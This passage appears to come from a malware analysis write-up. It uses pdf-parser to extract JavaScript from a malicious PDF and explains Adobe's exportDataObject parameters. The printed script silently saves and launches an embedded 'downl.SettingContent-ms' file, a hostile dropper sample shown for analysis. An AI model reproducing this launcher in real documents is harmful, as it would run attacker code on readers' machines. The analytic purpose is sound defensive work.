       <<
        /Length 136
        /Filter /FlateDecode
      >>



### Javascript

If we add `--raw` and `--filter` to the dump, we can see the full
javascript. We'll run
`pdf-parser 576a373ccb9b62c3c934abfe1573a87759a2bfe266477155e0e59f336cc28ab4 --object 3 --raw --filter`
to get:



    function function11(){
    var functionDataMass = {};functionDataMass['nLaunch'] = 2;

    functionDataMass['cName'] = 'downl.SettingContent-ms';

    functionDataMass['r2'] = 'exportDataObject';
    this[functionDataMass['r2']](functionDataMass);}



#### Javascript doc.exportDataObject

A file inside a PDF is known as a "Data Object". There's a function
`doc.exportDataObject` that can be used to write a file to disk and
potentially open it. One reference for Data Objects in PDFs can be found
[here](https://acrobatusers.com/tutorials/importing-and-exporting-pdf-file-attachments-acrobat-javascript).

According to the [Adobe Javascript
Spec](https://www.adobe.com/content/dam/acom/en/devnet/acrobat/pdfs/Acro6JS.pdf),
the `exportDataObject` functions takes a up to four parameters:

-   cName - The name of the object to extract
-   cDIPath (optional) - Path to extract the data, but no longer
    supported as of version 6.
-   bAllowAuth (optional) - If true, will prompt user for Authorization.
    Default is false.
-   nLaunch (optional) - Controls if the file is launched (opened) after
    saving.\
    0 - Save, don't launch.\
    1 - Save and launch. Prompt user for path to save.\
    2 - Save and launch. Save to temporary path.

#### File Export in this Document

With that in mind, let's review the script above. This is pretty simple,
unobfuscated javacsript. It creates a dictionary object in the first
three lines, which will look like this:



    { 'r2': 'exportDataObject', 'nLaunch': 2, 'cname': 'downl.SettingContent-ms' }
